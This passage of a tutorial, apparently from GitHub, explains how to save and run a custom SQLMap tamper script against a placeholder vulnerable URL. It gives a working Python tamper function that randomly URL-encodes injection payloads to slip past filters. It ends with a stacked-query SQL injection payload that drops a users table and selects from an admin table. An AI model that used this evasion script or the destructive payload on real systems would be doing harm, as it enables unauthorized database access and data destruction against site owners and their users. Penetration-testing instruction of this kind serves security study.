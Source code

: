 ### Step 5: Save and Use the Tamper Script

1. **Save the Script**: Save your tamper script in the `tamper` directory of your SQLMap installation. For example, save it as `random_urlencode.py`.

2. **Use the Script**: Use the `--tamper` option in SQLMap to apply your custom tamper script.

```sh
sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=random_urlencode
```

### Step 6: Testing and Debugging

- **Test**: Ensure the script works as intended by running SQLMap with different payloads.
- **Debug**: Print debug information if necessary. You can add print statements within the `tamper` function to debug your script.

#### Debugging Example

```python
#!/usr/bin/env python

import random

__priority__ = 1

def dependencies():
    pass

def tamper(payload):
    """
    Randomly URL encodes characters in the payload
    """
    if payload:
        encoded_payload = ""
        for char in payload:
            if random.randint(0, 1):
                encoded_payload += "%%%02x" % ord(char)
            else:
                encoded_payload += char
        print(f"Original: {payload}")
        print(f"Modified: {encoded_payload}")
        return encoded_payload
    return payload
```

### 7. Some More Techniques

#### Stacked Queries 
- **Executing Multiple Statements**: ⚠️⚠️⚠️⚠️
  ```sql
  '; DROP TABLE users; SELECT * FROM admin -- 
  ```
